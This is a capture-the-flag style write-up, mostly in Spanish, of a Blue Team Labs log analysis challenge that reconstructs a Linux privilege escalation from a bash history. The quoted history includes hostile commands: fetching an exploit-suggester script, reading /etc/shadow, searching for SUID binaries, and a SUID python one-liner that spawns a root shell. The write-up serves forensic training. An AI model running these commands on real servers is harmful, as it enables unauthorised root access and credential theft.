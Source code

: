 # Write-Up — Log Analysis: Privilege Escalation

**Platform:** BTLO  
**Lab:** Log Analysis / Privilege Escalation  
**Category:** CTF Like  
**Date:** 2025-10-01  
**Difficulty:** Easy<br>
**OS:** Windows/Linux<br>
**Link:** https://blueteamlabs.online/home/challenge/log-analysis-privilege-escalation-65ffe8df12

---

## Scenario

A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case the ‘root’ account. Responders say ‘www-data’ would be the logged in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent php file uploads to gain malicious code execution. The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened?

---

## Bash History Analysis

Descargamos el archivo que nos proporcionan con el historial de comandos ejecutados en el servidor.
<figure><img src="./assets/images/descarga.png" alt=""><figcaption></figcaption></figure>
<figure><img src="./assets/images/unzip.png" alt=""><figcaption></figcaption></figure>
A través de ellos podemos reconstruir las acciones del atacante:

```bash
cat BTLO\ Log\ Analysis\ -\ Privilege\ Escalation/bash_history
```
```bash
nano index.php
touch test.php
rm test.php
cd ../
ls
ls -la
rmdir bck/
rm -rf bck/
cd html/
cd uploads/
ls -la
pwd
id
whoami
ls
cd /root
cd /
ls -la
cd /home
ls
cd /home/daniel/
ls -la
su root
find / -name perl*
find / -name python*
python
python -c 'import pty; pty.spawn("/bin/sh")'
find / -name gcc*
find / -name cc
echo os.system('/bin/bash')
cd /tmp
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
env
ps -aux
ps -ef | grep root
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
ls -aRl /etc/| awk '$1 ~ /^.*r.*/'
crontab -l
ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
cat /etc/resolv.conf
iptables -L
lsof -i
tcpdump
last
cat /etc/sudoers
sudo -l
ls -ahlR /root/
ls -ahlR /home/
cat ~/.bashrc
cat ~/.profile
cat ~/.ssh/authorized_keys
ls -aRl /etc/ | awk '$1 ~ /^.*w.*/' 2>/dev/null
/bin/bash -i
cat /etc/fstab
cat /etc/passwd
cat /etc/shadow
find / -type f -user root -perm -4000 2>/dev/null
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
rm /var/www/html/uploads/x.phtml
```

---

## Challenge Questions — Answers & Justification

### 1) What user (other than `root`) is present on the server?

El atacante accede al directorio /home/daniel/ . Esto nos revela la existencia de otro usuario en el sistema.

**Respuesta:** daniel

---

### 2) Which script did the attacker attempt to download?

Observamos el uso de wget para descargar un script.

**Respuesta:** linux-exploit-suggester.sh


---

### 3) Which packet analyzer did the attacker attempt to use?

En el historial aparece `tcpdump`, que es una herramienta para capturar paquetes de red.

**Respuesta:** tcpdump


---

### 4) Which file extension did the attacker use to bypass the upload filter?

El atacante elimina un archivo con extensión .phtml, lo que indica que fue usado para evadir el filtro de subida de archivos PHP.

**Respuesta:** .phtml


---

### 5) What misconfiguration in `python` was exploited to gain root?

```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Este comando intenta ejecutar una shell con como root usando el argumento -p, lo cual solo es posible si el binario de Python tiene el bit SUID activado. 
Esta información la he encontrado aquí: https://gtfobins.github.io/gtfobins/gdb/#suid

**Respuesta:** SUID
